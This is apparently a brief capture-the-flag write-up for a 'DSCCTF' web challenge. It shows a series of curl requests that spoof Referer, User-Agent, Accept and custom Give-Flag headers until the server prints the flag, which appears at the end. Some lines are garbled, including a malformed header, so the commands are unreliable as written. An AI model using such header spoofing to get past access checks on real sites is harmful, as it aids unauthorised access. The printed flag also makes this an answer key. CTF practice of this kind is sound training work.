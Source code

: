 # DSCCTF

BY FOLLOWING CULES WE CAN TRY DIFFERENT VARIATION OF CURL  TO GET THE FINAL FLAG 

$ curl -s https://secretgroup.ctf.dscjssstuniv.in/
<p>Not an agent of the <b>dsc-4dm1n</b> secure browser!</p>
$ curl -H "Referer: https://secretgroup.ctf.dscjssstuniv.in/"      -H "User-Agent: dsc-4dm1n"      -H "Accept: */*"      https://secretgroup.ctf.dscjssstuniv.in/
<p>Does not Accept <b>fl4g</b></p>

$ curl -H "Referer: https://secretgroup.ctf.dscjssstuniv.in/"      -H "User-*/*"pt: fl4g"      -H "Give-Flag: true"      https://secretgroup.ctf.dscjssstuniv.in/
<p>Does not Accept <b>fl4g</b></p>

$ curl -H "Referer: https://secretgroup.ctf.dscjssstuniv.in/"      -H "User-Agent:true-4dm1n"      -H "Accept: fl4g"      -H "Give-Flag: 7ru3"      https://secretgroup.ctf.dscjssstuniv.in/
<b>Give-Flag</b> is not <b>7ru3</b>

$ curl -H "Referer: https://secretgroup.ctf.dscjssstuniv.in/"      -H "User-Agent: dsc-4dm1n"      -H "Accept: fl4g"      -H "Give-Flag: 7ru3"      https://secretgroup.ctf.dscjssstuniv.in/
dscctf{y0u_4r3_n0w_4_v4l1d_m3mb3r_0f_th3_s3cr3t_gr0up!}
